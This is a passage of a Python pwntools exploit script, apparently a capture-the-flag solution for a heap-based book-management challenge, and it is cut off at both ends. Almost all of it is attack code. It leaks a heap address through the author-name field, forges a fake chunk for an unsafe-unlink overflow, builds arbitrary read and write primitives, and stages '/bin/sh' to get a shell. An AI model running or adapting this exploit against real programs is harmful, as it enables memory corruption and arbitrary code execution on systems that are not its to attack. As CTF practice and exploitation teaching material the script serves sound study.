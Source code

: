 ```python
        p.sendline(desc)


def remove(idx):
    cmd(2)
    p.recvuntil(': ')
    p.sendline(str(idx))


def edit(idx, desc):
    cmd(3)
    p.recvuntil(': ')
    p.sendline(str(idx))
    p.recvuntil(': ')
    p.send(desc)


def author_name(author):
    cmd(5)
    p.recvuntil(': ')
    p.send(author)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def main():
    # Your exploit script goes here

    # leak heap address
    p.recvuntil('name: ')
    p.sendline('x' * (0x20 - 5) + 'leak:')

    create(0x20, 'tmp a', 0x20, 'b') # 1
    cmd(4)
    p.recvuntil('Author: ')
    p.recvuntil('leak:')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    p.info('heap leak @ 0x%x' % heap_leak)
    heap_base = heap_leak - 0x1080

    create(0x20, 'buf 1', 0x20, 'desc buf') # 2
    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
    remove(2)
    remove(3)

    ptr = heap_base + 0x1180
    payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
    create(0x20, 'name', 0x108, 'overflow') # 4
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
```